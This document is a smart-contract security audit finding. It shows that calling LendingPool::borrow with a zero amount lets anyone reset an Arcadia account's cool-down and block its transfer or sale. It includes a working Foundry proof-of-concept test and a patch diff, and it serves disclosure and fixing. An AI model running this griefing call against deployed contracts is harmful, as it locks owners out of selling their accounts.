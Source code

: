 Upbeat Hazel Armadillo

medium

# An attacker could prevent the account from being transferred or sold on secondary markets

## Summary

Incorrect verification that the caller is the beneficiary allows anyone to trigger the cool-down period and prevent the account from being transferred.

## Vulnerability Detail

Arcadia mints an NFT for every account created by the factory.

The `AccountV1::transferOwnership` function uses a cool-down period to prevent any account action that might be disadvantageous to a new owner.

```solidity
modifier updateActionTimestamp() {
    lastActionTimestamp = uint32(block.timestamp);
    _;
}
// ...
function transferOwnership(address newOwner) external onlyFactory notDuringAuction {
    if (block.timestamp <= lastActionTimestamp + COOL_DOWN_PERIOD) revert AccountErrors.CoolDownPeriodNotPassed();

    // The Factory will check that the new owner is not address(0).
    owner = newOwner;
}
```

It is assumed that actions that trigger the cool-down period can only be performed by either the account owner or beneficiary.

However, the `LendingPool::borrow` function's check that `msg.sender` is the beneficiary can be bypassed if a zero amount is passed, because it only verifies that the amount is less or equal than the allowances.

```solidity
function borrow(uint256 amount, address account, address to, bytes3 referrer)
    external
    whenBorrowNotPaused
    processInterests
{
    // ...
    // Check allowances to take debt.
    if (accountOwner != msg.sender) {
        uint256 allowed = creditAllowance[account][accountOwner][msg.sender];
        if (allowed != type(uint256).max) {
            creditAllowance[account][accountOwner][msg.sender] = allowed - amountWithFee;
        }
    }
    // ...
}
```

Therefore, anyone can call this function on behalf of any account and trigger the cool-down period.

There is no need to front-run a transaction; calling it once during a cool-down period is sufficient. Such an attack can persist for a long time and will not incur significant costs on an L2 network.

## POC

Add the `POC.t.sol` file to the `lending-v2/test/fuzz/LendingPool/` folder. Run the test with `forge test --mc POC -vv`.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.22;

import {LendingPool_Fuzz_Test} from "./_LendingPool.fuzz.t.sol";
import {GuardianErrors} from "../../../../lib/accounts-v2/src/libraries/Errors.sol";

contract POC is LendingPool_Fuzz_Test {
    address newOwner = makeAddr("newOwner");

    function setUp() public override {
        LendingPool_Fuzz_Test.setUp();
    }

    function testTransferAccountSuccess() external {
        vm.warp(block.timestamp + 1 hours);

        uint256 id = factory.accountIndex(address(proxyAccount));

        vm.prank(users.accountOwner);
        factory.transferFrom(users.accountOwner, newOwner, id);

        assertEq(proxyAccount.owner(), newOwner);
    }

    function testTransferAccountRevert() external {
        vm.warp(block.timestamp + 1 hours);

        uint256 id = factory.accountIndex(address(proxyAccount));

        address attacker = makeAddr("attacker");
        vm.prank(attacker);
        pool.borrow(0, address(proxyAccount), attacker, emptyBytes3);

        vm.prank(users.accountOwner);
        vm.expectRevert(GuardianErrors.CoolDownPeriodNotPassed.selector);
        factory.transferFrom(users.accountOwner, newOwner, id);
    }
}
```

## Impact

A user may be unable to transfer the account or sell it on the secondary market, leading to potential financial losses.

## Code Snippet

https://github.com/sherlock-audit/2023-12-arcadia/blob/main/accounts-v2/src/accounts/AccountV1.sol#L138-L141
https://github.com/sherlock-audit/2023-12-arcadia/blob/main/accounts-v2/src/accounts/AccountV1.sol#L265-L270
https://github.com/sherlock-audit/2023-12-arcadia/blob/main/accounts-v2/src/accounts/AccountV1.sol#L318
https://github.com/sherlock-audit/2023-12-arcadia/blob/main/lending-v2/src/LendingPool.sol#L426-L431

## Tool used

Manual Review

## Recommendation

```diff
diff --git a/lending-v2/src/LendingPool.sol b/lending-v2/src/LendingPool.sol
index b66de8e..54feea3 100644
--- a/lending-v2/src/LendingPool.sol
+++ b/lending-v2/src/LendingPool.sol
@@ -416,6 +416,7 @@ contract LendingPool is LendingPoolGuardian, Creditor, DebtToken, ILendingPool {
         whenBorrowNotPaused
         processInterests
     {
+        require(amount > 0);
         // If Account is not an actual address of an Account, ownerOfAccount(address) will return the zero address.
         address accountOwner = IFactory(ACCOUNT_FACTORY).ownerOfAccount(account);
         if (accountOwner == address(0)) revert LendingPoolErrors.IsNotAnAccount();
```
